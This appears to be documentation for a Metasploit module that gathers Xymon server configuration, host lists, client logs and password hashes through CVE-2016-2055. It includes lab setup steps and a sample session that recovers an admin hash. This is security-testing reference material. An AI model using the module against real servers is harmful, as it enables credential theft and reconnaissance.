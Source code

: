 ## Description

  This module retrieves information from a Xymon daemon service
  (formerly Hobbit, based on Big Brother), including server
  configuration information, a list of monitored hosts, and
  associated client log for each host.

  This module also retrieves usernames and password hashes from
  the `xymonpasswd` config file from Xymon servers before 4.3.25,
  which permit download arbitrary config files (CVE-2016-2055),
  and servers configured with `ALLOWALLCONFIGFILES` enabled.


## Vulnerable Application

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  To expose the `xymonpasswd` file, add the following line to `/etc/xymon/xymonserver.cfg` :

  ```
  ALLOWALLCONFIGFILES="TRUE"
  ```

  And restart the service with : `service xymon restart`.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use use auxiliary/gather/xymon_info`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should receive server and client host information


## Scenarios

  ```
  msf5 > use auxiliary/gather/xymon_info 
  msf5 auxiliary(gather/xymon_info) > set rhosts 172.16.191.250
  rhosts => 172.16.191.250
  msf5 auxiliary(gather/xymon_info) > run
  [*] Running module against 172.16.191.250

  [*] 172.16.191.250:1984 - Xymon daemon version 4.3.28
  [*] 172.16.191.250:1984 - Retrieving configuration files ...
  [+] 172.16.191.250:1984 - xymonserver.cfg (18347 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_136371.txt
  [+] 172.16.191.250:1984 - hosts.cfg (745 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.hos_647070.txt
  [+] 172.16.191.250:1984 - xymonpasswd (44 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.config.xym_182226.txt
  [+] 172.16.191.250:1984 - Credentials: admin : $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.
  [*] 172.16.191.250:1984 - Retrieving host list ...
  [+] 172.16.191.250:1984 - Host info (127 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hostinfo_254799.txt
  [+] 172.16.191.250:1984 - Found 3 hosts
  [*] 172.16.191.250:1984 - Retrieving client logs ...
  [+] 172.16.191.250:1984 - debian-9-6-0-x64-xfce.local client log (87942 bytes) stored in /root/.msf4/loot/20190629235042_default_172.16.191.250_xymon.hosts.debi_671716.txt
  [*] 172.16.191.250:1984 - test-host client log is empty
  [*] 172.16.191.250:1984 - another-test-host client log is empty
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/xymon_info) > creds
  Credentials
  ===========

  host            origin          service            public  private                                realm  private_type        JtR Format
  ----            ------          -------            ------  -------                                -----  ------------        ----------
  172.16.191.250  172.16.191.250  1984/tcp (xymond)  admin   $apr1$axRTeLB1$TFmoeLwRnus.Yhr5fJmc1.         Nonreplayable hash  md5crypt
  ```

